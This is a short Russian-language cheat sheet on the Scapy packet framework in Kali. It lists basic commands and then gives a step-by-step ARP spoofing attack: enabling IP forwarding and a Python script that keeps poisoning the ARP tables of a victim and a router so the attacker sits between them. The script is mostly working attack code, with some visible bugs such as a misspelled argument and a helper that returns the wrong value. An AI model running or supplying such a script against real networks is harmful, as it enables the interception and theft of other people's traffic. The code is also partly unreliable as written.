 ***
Фреймвор, написанный на python, предустановлен в Kali. 
***
## Команды

**help() / help("func")** - помощь пайтона

**ls() / ls(протокол)** - поддерживаемые протоколы / их параметры
>**someVar = протокол()** - создаст пакет
**someVar1 = someVar2/someVar3** - склеит новый пакет из ранних
**someVar.display()** - проверить параметры и их значения
**send(someVar) / sendp(someVar)** - отправить в сеть пакет

dir() - предустановленные функции.

***
## ARP spoofing
1. Для атаки необходимо притвориться **для компьютера жертвы роутером, а для роутера - компьютером жертвы.**
2. Настроить свою систему под имитацию роутера:
	```bush
	echo 1 > /proc/sys/net/ipv4/ip_forward
	```
	
Простейший пример на python3:
```python
#!/usr/bin/env python

import scapy.all as scapy
import time

def get_mac(ip):
	arp_request = scapy.ARP(pdst=ip)
	broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
	arp_request_broadcast = broadcast/arp_request
	answer_list = scapy.srp(arp_request_broadcast, timeout=2, verdose=False)[0]
	
	return answer_list

def spoof(target_ip, spoof_ip):
	target_mac = get_mac(target_ip)
	packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
	scapy.send(packet, verbose=False)

sent_packets_count = 0
try:
	while True:
		spoof(<ip жертвы>, <ip роутура>)
		spoof(<ip роутура>, <ip жертвы>)
		sent_packets_count += 2
		print("\r[+] Packets sent: " + str(sent_packets_count), end="")
		time.sleep(2)
except KeyboardInterrupt:
	print("\n[+] Detected CTRL + C ... Quitting.")
```